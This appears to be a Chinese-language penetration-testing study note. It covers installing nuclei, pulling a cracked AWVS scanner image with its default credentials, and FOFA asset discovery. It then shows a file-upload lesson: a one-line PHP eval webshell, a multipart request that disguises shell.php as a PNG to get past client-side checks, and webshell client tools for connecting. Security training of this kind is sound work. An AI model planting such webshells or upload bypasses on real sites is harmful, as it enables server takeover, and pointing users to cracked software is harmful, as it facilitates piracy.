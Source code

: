## nuclei
https://github.com/projectdiscovery/nuclei

1. install go
https://golang.google.cn/dl/
2. install nuclei
```sh
go install -v github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest
```

## awvs漏扫
```sh
# 下载破解版 awvs 镜像
docker pull 0xgkd/awvs
docker run -it -d -p 13443:3443 0xgkd/awvs
# Login Credentials:
username: admin@gkd.com⁠
password: Oxgkd123
```

## Spring Boot 相关漏洞学习资料，利用方法和技巧合集
https://github.com/LandGrey/SpringBootVulExploit/tree/master

# Day5

数据泄露很常见
[搜索引擎 FOFA](https://fofa.info/): FOFA是一款专注于网络空间测绘和资产探测的搜索引擎，主要用于网络安全领域的资产发现、漏洞扫描和威胁情报收集。

## webshell (文件上传)
网页木马后门，上传文件

一句话木马 `pass.php`
```php
<?php eval($_POST["pass"]);?>
```

### pass1 客户端 js 验证
禁用网页js（使用插件Quick Javascript Switcher）,或者使用burpsuit。上传 webshell
```
------WebKitFormBoundarykQoJzWfXWa1VBSZj
Content-Disposition: form-data; name="upload_file"; filename="shell.php"
Content-Type: image/png

<?php
eval($_POST["pass"]);

------WebKitFormBoundarykQoJzWfXWa1VBSZj
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundarykQoJzWfXWa1VBSZj--
```
然后使用菜刀、蚁剑、Godzilla打开上传文件的地址`xxxx/upload/shell.php`
